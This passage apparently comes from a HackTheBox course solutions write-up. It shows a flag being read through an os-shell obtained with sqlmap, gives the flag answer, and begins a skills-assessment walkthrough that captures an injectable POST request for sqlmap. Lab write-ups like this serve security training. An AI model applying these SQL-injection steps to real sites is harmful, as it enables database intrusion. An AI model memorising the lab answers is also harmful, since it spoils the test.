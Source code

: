 Once students obtain a shell, they can print out the flag file "flag.txt" that is under the root directory:

```shell
cat /flag.txt
```
```
os-shell> cat /flag.txt

do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'HTB{n3v3r_run_db_45_db4}'
```

Answer: `HTB{n3v3r_run_db_45_db4}`

# Skills Assessment

## Question 1

### "What's the contents of table final\_flag?"

After spawning the target machine, students need to visit its website's root page and inspect the web application for possible attack vectors:

![[HTB Solutions/CPTS/z. images/759201dca5434a514d6d641ba2284a33_MD5.jpg]]

Students then need to click all buttons while having the Network tab of the Web Developer tools open, searching for a `POST` request that can be abused. The only button that sends a `POST` request is under `Catalog` -> `Shop`, specifically, the `ADD TO CART +` button on an item:

![[HTB Solutions/CPTS/z. images/9b947b96026f38551c255060e5b2086d_MD5.jpg]]

Therefore, students need to select the request and copy the raw request headers, in addition to the raw request payload, and save them into a file:

![[HTB Solutions/CPTS/z. images/1ae27c7d902e0e77d6a2d345781c931a_MD5.jpg]]

![[HTB Solutions/CPTS/z. images/e186b36f3e1d7fd58ea5fb5cfd0bf9f5_MD5.jpg]]

The final request file that will be provided to `sqlmap` is:

```
POST /action.php HTTP/1.1
Host: STMIP:STMPO
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 8
Origin: http://178.62.91.22:31147
DNT: 1
Connection: keep-alive
Referer: http://STMIP:STMPO/shop.html
Sec-GPC: 1

{"id":1}
```
